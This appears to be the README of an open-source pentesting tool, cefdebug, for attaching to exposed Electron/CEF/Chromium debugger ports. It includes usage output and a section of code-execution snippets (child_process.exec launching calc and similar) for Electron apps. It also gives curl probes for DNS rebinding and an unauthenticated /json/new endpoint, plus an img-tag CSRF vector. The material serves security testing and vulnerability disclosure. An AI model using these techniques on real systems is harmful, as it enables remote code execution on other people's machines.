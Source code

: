 # cefdebug

This is a minimal commandline utility and/or reference code for using
libwebsockets to connect to an electron/CEF/chromium debugger.

You're probably thinking, "who would enable the debugger in shipping products?".
Well, it turns out just about everyone shipping electron or CEF has made this
mistake at least once.

In some configurations, you can pop a shell remotely just by making a victim
click a link.

Example: https://bugs.chromium.org/p/project-zero/issues/detail?id=773

In older versions, you could pop a shell remotely using DNS rebinding.

Example: https://bugs.chromium.org/p/project-zero/issues/detail?id=1742

In current versions, you can compromise other local users or escape sandboxes.

Example: https://bugs.chromium.org/p/project-zero/issues/detail?id=1944

It happens so often, that I thought pentesters might find it useful to have some
code easily available to interact with them.

# Usage

First, scan the local machine

```
$ ./cefdebug.exe
[2019/10/04 16:18:56:7288] U: There are 3 tcp sockets in state listen.
[2019/10/04 16:18:56:7766] U: There were 1 servers that appear to be CEF debuggers.
[2019/10/04 16:18:56:7816] U: ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a
```

Now you can send commands to that `ws://` URL.

```
$ ./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.version"
[2019/10/04 16:35:06:2645] U: >>> process.version
[2019/10/04 16:35:06:2685] U: <<< v10.11.0
```

Alternatively, you can start a simple interactive shell.

```
$ ./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a
>>> ['hello', 'world'].join(' ')
[2019/10/04 16:36:31:0964] U: <<< hello world
>>> a = 1024
[2019/10/04 16:36:44:5250] U: <<< 1024
>>> a * 2
[2019/10/04 16:36:48:3005] U: <<< 2048
>>> quit
```

## h4x0r1ng

In general, if node is available, something like this might work:

```
$ ./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.mainModule.require('child_process').exec('calc').pid"
[2019/10/04 16:39:18:6464] U: >>> process.mainModule.require('child_process').exec('calc').pid
[2019/10/04 16:39:18:6523] U: <<< 18560
```

Otherwise, you will have to query what apis and objects are exposed. It is almost
certainly game over, as you can use any api the application itself can use.

### Known Examples

Here are a list of code snippets I've seen that allow code exec in different electron applications.

`process.mainModule.require('child_process').exec('calc')`

`window.appshell.app.openURLInDefaultBrowser("c:/windows/system32/calc.exe")`

`require('child_process').spawnSync('calc.exe')`

`Browser.open(JSON.stringify({url: "c:\\windows\\system32\\calc.exe"}))`

### Notes
Here are things to test if you find a debugger.

* Does it prevent [DNS rebinding](https://en.wikipedia.org/wiki/DNS_rebinding)?

`$ curl -H 'Host: example.com' -si 'http://127.0.0.1:9234/json/list'`

🚨 If that works, this is **remotely** exploitable. 🚨

Newer versions of chromium require that the Host header match `localhost` or an IP address to prevent this. If this works, the application you're looking at is based on an older version of chromium, and leaving the debugger enabled can be **remotely** exploited. You have found a critical vulnerability.

* Is the `new` command functioning?

`$ curl -si 'http://127.0.0.1:9234/json/new?javascript:alert(1)'`

🔥🚨 If that works, this is **easily** **remotely** exploitable. 🚨🔥

This command requires no authentication, and has no CSRF protection. Just `<img src=http://127.0.0.1:XXX/json/new?javascript:...>` in a website is enough to exploit it. This is a very critical vulnerability.

# Building

## Windows 

> If you don't want to build it yourself, check out the [releases](https://github.com/taviso/ctftool/releases) tab

I used [GNU make](http://gnuwin32.sourceforge.net/packages/make.htm) and Visual
Studio 2019 to develop `cefdebug`. 

If all the dependencies are installed, just typing `make` in a developer command
prompt should be enough.

I use the "Build Tools" variant of Visual Studio, and the only components I have
selected are MSVC, MSBuild, CMake and the SDK.

This project uses submodules for some of the dependencies, be sure that you're
using a command like this to fetch all the required code.

```
git submodule update --init --recursive
```
## Linux

The main depdencies are libwebsockets and libreadline.

On Fedora, try:

`yum install readline-devel libwebsockets-devel openssl-devel`

If the dependencies are intalled, try `make -f GNUmakefile.linux`

## Embedding

The code is intended to be simple enough to embed in other pentesting tools.

# Authors

Tavis Ormandy <taviso@gmail.com>

# License

All original code is Apache 2.0, See LICENSE file for details.

The following components are imported third party projects.

* [wineditline](http://mingweditline.sourceforge.net/), by Paolo Tosco.
  * wineditline is used to implement user friendly command-line input and
    history editing.
* [libwebsockets](https://libwebsockets.org), by Andy Green et al.
  * libwebsockets is a portable c implementation of HTML5 websockets.
